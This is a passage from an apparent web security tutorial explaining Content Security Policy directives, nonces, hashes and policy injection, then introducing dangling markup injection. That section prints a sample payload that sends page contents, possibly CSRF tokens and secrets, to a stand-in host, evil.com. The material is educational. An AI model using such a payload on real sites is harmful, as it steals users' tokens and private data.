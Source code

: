 For example: 
`script-src 'self'` only allows the execution of scripts loaded from the page itself. However, `script-src [https://scripts.normal-website.com](https://scripts.normal-website.com)` only allow scripts from this domain. 

There are a lot of other directives, such as `img-src` or `frame-ancestors` (which defines where the app can be framed, to avoid clickjacking). A full list can be found here: [https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)

There is also the `default-src` directive that will be used for all resources that don’t have their specific directive defined. If a `default-src` or `script-src` is defined, `eval()` and inline scripts (scripts that reside in the HTML) are not permitted. However, if necessary, the values `['unsafe-inline'](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy#unsafe-inline)` and `['unsafe-eval'](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy#unsafe-inline)` can be used to avoid that restriction. 

In addition to this, CSP also allows the use of **nonces** and **hashes**. 

- The directive can specify a nonce and the tag that loads the script must specify the same nonce. If it does not match, the script doesn’t get executed.
- The directive can also specify a hash of the contents of the trusted script. If the hash does not match with the script loaded in the webpage, the browser doesn’t execute it.

CSP may be vulnerable to policy injection. If anything that the user can control is injected in the CSP (for example in the obsolete `report-uri` directive) the attacker could add some new directives, such as `script-src-elem` (This directive allows you to control just script blocks and was created so that you can allow event handlers but block script elements) and overwrittes an already existing `script-src` directive.  

## Dangling markup injection

This is a technique used for capturing data when a full XSS attack is not possible. It consist of injecting a tag and not closing it, breaking the whole DOM. 

For example, if we inject: 
`"><img src='http://evil.com/log.cgi?`

Note that we didn’t closed the `img` tag and we added a `?`at the end of the URL, implying that we are going to send parameters. Since the tag is not properly closed, all the html data between the injection point and the next `'` will be sent as a parameter. This html could contain secrets, csrf tokens and important data from the client. 

![Untitled](/img/posts/XSS/Untitled%2018.png)
